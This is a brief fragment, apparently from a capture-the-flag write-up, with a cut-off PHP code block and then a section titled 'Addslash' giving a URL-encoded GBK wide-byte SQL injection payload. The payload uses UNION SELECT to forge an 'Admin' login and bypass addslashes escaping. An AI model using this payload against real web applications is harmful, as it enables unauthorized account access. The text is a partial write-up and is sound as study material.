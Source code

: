 ```php
        }
}
?>
```

# Addslash

GBK injection, and we need union select to return new query: 
```
?username=Admin%df%27%20and%201=2%20union%20select%20concat(CHAR(65),CHAR(100),CHAR(109),CHAR(105),CHAR(110));%23&password=123&login=%E6%B3%A8%E5%86%8C
```